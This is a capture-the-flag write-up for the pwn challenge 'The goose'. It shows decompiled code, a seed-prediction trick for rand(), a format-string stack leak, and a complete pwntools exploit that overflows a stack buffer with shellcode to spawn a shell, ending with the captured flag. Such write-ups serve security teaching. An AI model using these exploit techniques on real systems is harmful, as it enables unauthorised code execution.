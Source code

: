 +++
date = '2025-07-14T09:16:28+02:00'
draft = false 
title = 'The goose'
tags = [ "pwn" ]
+++

description: When the honking gets tough, you better brush up on your basics.
Author: dsp

For this challenge we are given the binary and the Dockerfile 
```
>>> pwn checksec --file=chall                                                                                   <<<
[*] 'l3ak_ctf/pwn/the_goose/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

No stack canary and executable stack we can already guess this will involve a shellcode.  

## Exploration 

```
>>> the_goose ./chall
Welcome to the goose game.
Here you have to guess a-priori, how many HONKS you will receive from a very angry goose.
Godspeed.
How shall we call you?
> GOD

so GOD. how many honks?10

 HONK ... HONK
tough luck. THE GOOSE WINS! GET THE HONK OUT!
```

So it seems like we have to guess the number of HONKs from the goose.  
Let's fire up ghidra and look at what we facing.

```C
int main(void)
{
  int iVar1;
  time_t tVar2;
  
  setvbuf(stdout,(char *)0x0,2,0);
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  setuser();
  iVar1 = rand();
  nhonks = iVar1 % 0x5b + 10;
  iVar1 = guess();
  if (iVar1 == 0) {
    puts("tough luck. THE GOOSE WINS! GET THE HONK OUT!");
  }
  else {
    highscore();
  }
  return 0;
}
```

The number of honks are generated by `rand()` which is seeded with the current time.  
If we correctly guess the number of honks we go inside of the highscore function.
```C
void highscore(void)
{
  undefined message_buffer [128];
  char buffer_random [31];
  undefined local_d9;
  undefined name_buffer [32];
  char success_message [74];
 
  /* The message is written one char at a time I placed everything on the same line to make it readable */
  success_message = "wow %s you\'re so go what message would you like to leave to the world?"
  success_message[0x49] = '\0';
  printf("what\'s your name again?");
  scanf("%31s",name_buffer);
  local_d9 = 0;
  sprintf(buffer_random,success_message,name_buffer);
  printf(buffer_random);
  read(0,message_buffer,0x400);
  printf("got it. bye now.");
  return;
}
```

The highscore function has a really obvious buffer overflow on the call to `read` that would allow us to inject shellcode and jump to it.  
So there are two steps to this challenge :
1. Guessing the number of honks
2. Exploiting the `highscore` function to get a shell

## Guessing the number of honks

The random number generator is initialised using `srand(time(NULL))` which makes the seed the second of the call to `srand`.  
We also know how the number of honks is calculated (`nhonks = iVar1 % 0x5b + 10;`).  
From there we can easily compute the number with a small C program 
```C
#include <stdlib.h>
#include <stdio.h>
#include <time.h>

int main(void)
{
	srand(time(NULL));
	printf("%d", (rand() % 0x5b + 10));
	return 0;
}
```

After compiling we can call it from a pwntools script and correctly guess the number of honks (if you are on a slow link you can add 1 or 2 to the `srand` time).
```python
number = subprocess.run(["./predict"], capture_output=True).stdout
io.sendlineafter(b"> ", b"GOD")
io.sendlineafter(b'so GOD. how many honks?', number)
```

## Exploiting the highscore function

Using the buffer overflow on the `read` call we can easily place a shellcode on the stack (there is no NX).  
The only problem is finding the address of something on the stack to be able to jump to our shellcode.  
This can be done using the format string vulnerability when we are asked for our name again. Giving `%p` as the name we are able to leak a pointer to the stack.  
The last step is to calculate the offsets and finish writing the exploit scrip

## Putting it all together

```python
io = start()

number = subprocess.run(["./predict"], capture_output=True).stdout
io.sendlineafter(b"> ", b"GOD")
io.sendlineafter(b'so GOD. how many honks?', number)

io.sendlineafter(b"what's your name again?", b'%p')

stack = int(io.recv().decode().split()[1], 16)
stack -= 0x126 # Offset to our buffer

# Space before return pointer 376
sh = asm(shellcraft.amd64.linux.sh())

payload = flat(
        asm('nop')*100,
        sh,
        b'A'*(376-100-len(sh)),
        pack(stack)
        )
io.sendline(payload)

io.interactive()
```

We run it and there we go
```
>>> ./exploit.py REMOTE 34.45.81.67 16004                                                                       <<<
[+] Opening connection to 34.45.81.67 on port 16004: Done
[*] Switching to interactive mode
got it. bye now.$ cat /flag.txt
L3AK{H0nk_m3_t0_th3_3nd_0f_l0v3}
[*] Interrupted
[*] Closed connection to 34.45.81.67 port 16004
```
